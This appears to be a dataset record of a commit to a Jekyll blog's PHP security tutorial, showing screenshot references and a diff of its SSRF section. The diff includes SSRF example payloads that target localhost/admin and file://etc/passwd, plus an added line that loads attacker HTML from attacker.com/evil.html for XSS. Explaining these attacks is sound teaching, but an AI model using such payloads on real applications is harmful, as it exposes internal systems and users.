

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from php-sec.md, in a window 1280 px wide and 900 px high, scrolled down 11144 px, cut to the strip 232-900 px from the top of the window. Shown: the whole strip, without its empty margins (108-1161 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 11911 px from its top, so only the background shows below that.

Commit message:
Update php-sec.md

```diff
--- a/php-sec.md
+++ b/php-sec.md
@@ -220,6 +220,8 @@ In contrast to CSRF, SSRF is a web security vulnerability that allows an attacke
 As you can see, there is a straightforward user-supplied URL to load the picture from another location. An attacker can do something like this now <code>http://example.com/?image=http://localhost/admin</code> hit the localhost and exploit it further. Also what's characteristic for this vulnerability is ability to try out different protocols like: <code>ftp://</code>, <code>file://</code>, <code>gopher://</code>, e.g <code>http://example.com/?image=file://etc/passwd</code>. <br>
 There is a whole other classification of SSRF, which is called Blind SSRF. As the name says, it's blind, meaning that we can't see the response (the result of the endpoint we are hitting) but we are hitting it. These types of SSRF's have a lower impact and are mostly used to scan open ports on the target machine, DoS... <br><br>
 
-SSRF is not as easy to fix as the previous vulnerabilities we talked about; there's not a certain function to fix it. The best would be if the application wouldn't allow users to provide URLs, but if the application must work like that, then there are other ways to prevent that. You can try "whitelisting" stuff, which means adding certain URLs and locations that are allowed to be supplied and everything else is not. While we are at it, almost never do "blacklisting" (its meaning is opposite of whitelisting,  those things that you list are forbidden and everything else isn't) to try to fix any of these vulnerabilities, because almost always sooner or later a bypass will be found for that. An extra step of taking care is not accepting other protocols/schemas than the ones needed.<br><br>
+SSRF is not as easy to fix as the previous vulnerabilities we talked about; there's not a certain function to fix it. The best would be if the application wouldn't allow users to provide URLs, but if the application must work like that, then there are other ways to prevent that. You can try "whitelisting" stuff, which means adding certain URLs and locations that are allowed to be supplied and everything else is not. While we are at it, almost never do "blacklisting" (its meaning is opposite of whitelisting,  those things that you list are forbidden and everything else isn't) to try to fix any of these vulnerabilities, because almost always sooner or later a bypass will be found for that. An extra step of taking care is not accepting other protocols/schemas than the ones needed.
+
+If you've payed attention in this blog you maybe will guess which vulnerability is present in that picture above aside from SSRF? If you've guessed XSS, that's correct. In this case an attacker can just upload a <code>.html>/code> with his malicious client-side code and send it like this <code>http://example.com/?image=http://attacker.com/evil.html</code><br><br>
 
 ## Remote Code Execution(RCE) & Command Injection
```
